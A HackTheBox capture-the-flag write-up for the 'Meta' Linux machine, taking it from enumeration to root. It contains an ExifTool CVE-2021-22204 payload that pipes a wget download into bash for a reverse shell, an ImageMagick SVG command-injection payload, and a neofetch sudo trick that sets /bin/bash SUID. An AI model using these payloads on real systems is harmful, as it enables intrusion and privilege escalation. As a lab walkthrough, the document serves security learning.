 ```yaml
---
title: HackTheBox - Meta
categories: htb procmon 
excerpt: | 
   Meta is a medium difficulty Linux machine.

feature_text: |
  ## Meta - Medium
  
feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```


### Scanning process
sudo nmap -p- --open -sCV -n -Pn \<ip\> -oN targeted:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 12:81:17:5a:5a:c9:c6:00:db:f0:ed:93:64:fd:1e:08 (RSA)
|   256 b5:e5:59:53:00:18:96:a6:f8:42:d8:c7:fb:13:20:49 (ECDSA)
|_  256 05:e9:df:71:b5:9f:25:03:6b:d0:46:8d:05:45:44:20 (ED25519)
80/tcp open  http    Apache httpd
|_http-title: Did not follow redirect to http://artcorp.htb
|_http-server-header: Apache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We have a simple page in production phase, but it seems like it hasn't any mistake. Let's turn to subdomains enumeration to enumerate others existing virtual hosts.
```
sudo gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://artcorp.htb -t 200
```

There is a new subdomain: dev01.artcorp.htb add it to the /etc/hosts. Here is an image uploader which seems to use an application to extract all metadata from your image.

Exif Tool: An utility to extract all metadata from an image input.

### Exploit vulnerabilities
Looking for an exploit of this utility, we will find a CVE on [AssassinUKG's](https://github.com/AssassinUKG/CVE-2021-22204) github profile.

It will create a new metadata with a command in base64. ExifTool will interprete it as a php code. 
```
sudo ./exploit.sh "system('wget -qO- http://<tu_ip> | bash')" happy.jpg
```
You have to create a shared service with python `python3 -m http.server 80` and listen at 443 port `rlwrap nc -lnvp 443` to receive an interactive console.

### Migrating of user
Take a look of some execution process and get one that is executed as other user.
```
#!/bin/bash
process=$(ps -eo command)
while true; do
        new_process=$(ps -eo command)
        diff <(echo "$process") <(echo "$new_process") | grep "[\<\>]" | grep -vE "procmon|command|kworker"
        process=$new_process
done
```
>\> /bin/sh -c /usr/local/bin/convert\_images.sh
It is a script that use mogrify: Version: ImageMagick 7.0.10-36


Take a look of searchsploit there is one way to inject command in a file. Creating a .svg file will result in our payload being executed on the next cron execution
``` html
<image authenticate='ff" `whoami > /dev/shm/whoami.txt`;"'>
<read filename="pdf:/etc/passwd"/>
<get width="base-width" height="base-height" />
<resize geometry="400x400" />
<write filename="test.png" />
<svg width="700" height="700" xmlns="http://www.w3.org/2000/svg"
xmlns:xlink="http://www.w3.org/1999/xlink">
<image xlink:href="msl:rce.svg" height="100" width="100"/>
</svg>
</image>
```
To see your directory every second use this command:
```
watch -n 1 ls -l /dev/shm
```
And there we go. You can be Thomas. Get his ssh private key and create a new conexion.


### Privilege Scalation
Check sudo permission with: sudo -l 
```
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"
```
Neofetch can be run as root without any password. Can we change the function of neofetch? Well. As you can see there is a `env_keep+=XDG_CONFIG_HOME`. Take a look what's this. `cat /home/thomas/.config/neofetch/config.conf | grep XDG_CONFIG_HOME`:
```
XDG_CONFIG_HOME="${XDG_CONFIG_HOME:-${HOME}/.config}"
    ...
    mkdir -p "${XDG_CONFIG_HOME}/neofetch/"
    ...
```
It seems like this variable defines what config file is preload on neofetch. So editing this variable as follow: `export XDG_CONFIG_HOME=/home/thomas/.config` and editing this config file to change the permission of a /bin/bash to set it SUID `chmod u+s /bin/bash`, we can get a bash as root `/bin/bash -p` (p indicate privilege mode).
Et voilà! Congratulations.

